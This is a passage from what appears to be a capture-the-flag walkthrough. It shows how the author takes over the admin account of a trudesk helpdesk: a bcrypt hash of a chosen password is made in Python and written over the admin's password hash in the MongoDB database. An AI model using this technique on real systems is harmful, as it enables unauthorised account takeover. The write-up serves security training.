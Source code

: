         "<p>Don&#39;t worry. I moved it off of the main server and into a container with SSL encryption.</p>\n"
      ]
    }



Issue uid 1006 is what I need to continue.

#### Logging into trudesk

I don't have creds for trudesk, but I have access to the database. I'll
get the hash for a password I know:



    oxdf@hacky$ python3
    Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
    [GCC 9.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import bcrypt
    >>> bcrypt.hashpw( b'0xdf0xdf', bcrypt.gensalt(rounds=4))
    b'$2b$04$p4DfSZ3YHjdBgs/9f.qWnOJq7.DEKBfGledDp2zJVfTKdJSFwllPK'



I'll note that one of the users has username admin. I'll update that
account's password hash to the newly generated one:



    > db.accounts.update( {"username" : "admin" }, {$set: {"password": "$2b$04$p4DfSZ3YHjdBgs/9f.qWnOJq7.DEKBfGledDp2zJVfTKdJSFwllPK"} });
    WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })



With it, I can log in and access the tickets:

![](/img/image-20221128172534600.png)
